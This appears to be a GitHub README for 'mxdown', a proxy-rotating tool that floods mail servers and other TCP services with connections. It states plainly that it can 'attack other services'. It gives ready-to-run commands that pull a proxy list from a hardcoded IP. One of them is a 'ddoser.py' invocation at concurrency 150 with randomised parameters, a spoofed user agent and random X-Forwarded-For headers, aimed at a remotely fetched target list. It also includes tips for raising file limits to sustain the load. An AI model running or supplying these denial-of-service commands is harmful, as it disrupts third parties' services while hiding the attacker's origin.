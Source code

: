 # mxdown
Check how much load your MX server (or other TCP Server) can handle via SYN flood atack.

Originally was needed to "test" mail server, but with few additional options `--just-connect`, `--direct-host` and `--port 5432` can be used to test the load or attack other services.

## Example
```shell
./maildown.py --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```

Remove `-vvv` to disable debug.

## Docker-based setup (the easy way)
### Build

```docker build -t mxdown .```

### Run

```shell
docker run -it mxdown  --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```

## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
## Run
```shell
Usage: maildown.py [OPTIONS]

  Run mxdown

Options:
  --host TEXT                  target host
  --port INTEGER               Port to connect, default: 25
  --sleep-delay INTEGER        Time to sleep after connection
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  -v, --verbose                Show verbose log
  --log-to-stdout              log to console
  --direct-host                Do not get MX from domain, just connect to provided host
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --shuffle-proxy              Shuffle proxy list on application start
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**mxdown** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
